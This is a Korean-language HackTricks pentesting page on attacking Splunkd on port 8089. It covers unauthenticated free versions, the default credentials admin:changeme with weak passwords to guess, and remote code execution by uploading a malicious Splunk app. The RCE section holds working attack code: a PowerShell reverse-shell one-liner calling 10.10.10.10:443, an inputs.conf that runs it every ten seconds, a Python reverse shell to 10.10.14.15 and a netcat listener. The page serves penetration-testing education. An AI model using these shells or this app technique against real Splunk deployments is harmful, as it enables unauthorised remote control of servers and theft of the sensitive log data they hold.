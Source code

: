 # 8089 - Splunkd의 Pentesting

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)을 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## **기본 정보**

Splunk는 **로그 분석 도구**로서 **데이터 수집, 분석 및 시각화**에 중요한 역할을 합니다. 초기 목적은 **SIEM (보안 정보 및 이벤트 관리)** 도구로 사용되지 않았지만, **보안 모니터링** 및 **비즈니스 분석** 영역에서 인기를 얻고 있습니다.

Splunk 배포는 자주 **민감한 데이터**를 저장하며, 시스템을 침해하는 경우 잠재적인 공격자에게 **가치 있는 정보원**으로 작용할 수 있습니다.
**기본 포트:** 8089
```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```
{% hint style="info" %}
**Splunk 웹 서버는 기본적으로 8000번 포트에서 실행됩니다**.
{% endhint %}

## 열거

### 무료 버전

Splunk Enterprise 평가판은 **60일 후에 무료 버전**으로 전환되며, **인증이 필요하지 않습니다**. 시스템 관리자가 Splunk 평가판을 설치하여 테스트하는 것은 흔한 일이지만, 이후 잊혀지는 경우가 많습니다. 이로 인해 인증이 필요하지 않은 무료 버전으로 자동 전환되며, 환경에 보안 취약점이 도입됩니다. 일부 조직은 예산 제약으로 인해 무료 버전을 선택할 수 있지만, 사용자/역할 관리가 없는 상태의 의미를 충분히 이해하지 못할 수 있습니다.

### 기본 자격 증명

이전 버전의 Splunk에서는 기본 자격 증명이 **`admin:changeme`**으로 설정되어 있으며, 이는 로그인 페이지에서 편리하게 표시됩니다.\
그러나 **최신 버전의 Splunk**은 **설치 과정에서 자격 증명을 설정**합니다. 기본 자격 증명이 작동하지 않는 경우, `admin`, `Welcome`, `Welcome1`, `Password123` 등과 같은 일반적인 약한 암호를 확인하는 것이 좋습니다.

### 정보 획득

Splunk에 로그인한 후에는 데이터를 **탐색**, **보고서 실행**, **대시보드 생성**, Splunkbase 라이브러리에서 **응용 프로그램 설치**, 사용자 정의 응용 프로그램 설치 등을 할 수 있습니다.\
또한 Splunk는 서버 측 Django 응용 프로그램, REST 엔드포인트, 스크립트 입력 및 경고 스크립트와 같은 여러 방법으로 **코드를 실행**할 수 있습니다. Splunk 서버에서 원격 코드 실행을 얻는 일반적인 방법은 스크립트 입력을 사용하는 것입니다.

또한, Splunk는 Windows 또는 Linux 호스트에 설치할 수 있으므로, Bash, PowerShell 또는 Batch 스크립트를 실행하는 스크립트 입력을 생성할 수 있습니다.

### Shodan

* `Splunk 빌드`

## RCE

### 사용자 정의 응용 프로그램 생성

사용자 정의 응용 프로그램은 **Python, Batch, Bash 또는 PowerShell 스크립트**를 실행할 수 있습니다.\
**Splunk에는 Python이 설치되어 있으므로**, **Windows** 시스템에서도 Python 코드를 실행할 수 있습니다.

[**이**](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk 패키지를 사용하여 도움을 받을 수 있습니다. 이 저장소의 **`bin`** 디렉토리에는 [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) 및 [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1)에 대한 예제가 있습니다. 이를 단계별로 진행해 보겠습니다.

이를 위해 먼저 다음 디렉토리 구조를 사용하여 사용자 정의 Splunk 응용 프로그램을 생성해야 합니다:
```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```
**`bin`** 디렉토리에는 실행할 **스크립트** (이 경우에는 **PowerShell** 역쉘이 될 것)가 포함될 것입니다. 그리고 기본 디렉토리에는 `inputs.conf` 파일이 있을 것입니다. 우리의 역쉘은 **PowerShell 원라이너**로 작성될 것입니다:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
[inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) 파일은 Splunk에게 **어떤 스크립트를 실행할지**와 다른 조건을 알려줍니다. 여기에서는 앱을 활성화하고 Splunk에게 10초마다 스크립트를 실행하도록 지시합니다. 간격은 항상 초 단위로 설정되며, 이 설정이 있을 때만 입력(스크립트)이 실행됩니다.
```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
우리는 애플리케이션이 배포될 때 실행되고 PowerShell 원라이너를 실행할 `.bat` 파일이 필요합니다.

다음 단계는 `파일에서 앱 설치`를 선택하고 애플리케이션을 업로드하는 것입니다.

<figure><img src="../.gitbook/assets/image (4) (5) (1).png" alt=""><figcaption></figcaption></figure>

악성 커스텀 앱을 업로드하기 전에 Netcat 또는 [socat](https://linux.die.net/man/1/socat)을 사용하여 리스너를 시작합시다.
```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```
`Upload app` 페이지에서 `찾아보기`를 클릭하고, 이전에 생성한 tarball을 선택한 후 `업로드`를 클릭합니다. 애플리케이션을 업로드하는 즉시, 애플리케이션의 상태가 자동으로 `활성화`로 전환되며, **역쉘이 수신**됩니다.

#### Linux

만약 **Linux 호스트**와 작업 중이라면, 악성 앱을 생성하고 업로드하기 전에 `rev.py` Python 스크립트를 **편집해야 합니다**. 나머지 과정은 동일하며, Netcat 리스너에서 역쉘 연결을 받아들일 수 있게 됩니다.
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

다음 페이지에서는이 서비스가 어떻게 남들보다 더 높은 권한을 얻고 지속성을 확보하기 위해 악용될 수 있는지에 대한 설명을 찾을 수 있습니다:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## 참고 자료

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹 배우기<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에서 광고를 보고 싶거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**를** 팔로우하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 자신의 해킹 기법을 공유하세요.

</details>

